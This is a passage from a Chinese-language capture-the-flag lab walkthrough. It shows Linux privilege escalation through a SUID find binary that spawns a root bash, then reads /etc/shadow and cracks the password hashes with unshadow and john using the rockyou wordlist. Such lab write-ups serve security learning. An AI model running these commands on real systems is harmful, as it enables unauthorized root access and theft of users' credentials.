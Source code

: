 ```shell
which find	#确定find命令的位置
/usr/bin/find . -exec /bin/bash -p \; -quit
```

执行后，可以清楚的看到提权成功

![](./pic-1/24.jpg)

不过按照道理这就可以直接看到最终`flag`了，但是说是5个`flag`，所以我们这种直接获取`root`的`bash`，属于直接到最后了

所以。这里按照提示去获取`/etc/shadow`文件

```shell
find / -exec /bin/cat /etc/shadow \; -quit
```

![](./pic-1/25.jpg)

可以获取到该文件中的内容，那么再获取`/etc/passwd`中的内容，把两个文件中的内容分别复制到`kali`中的两个文件中，然后使用`unshadow`进行整合，然后使用`john`进行爆破

```shell
unshadow user.txt pass.txt > userpass
john userpass --wordlist=/usr/share/wordlists/rockyou.txt
```
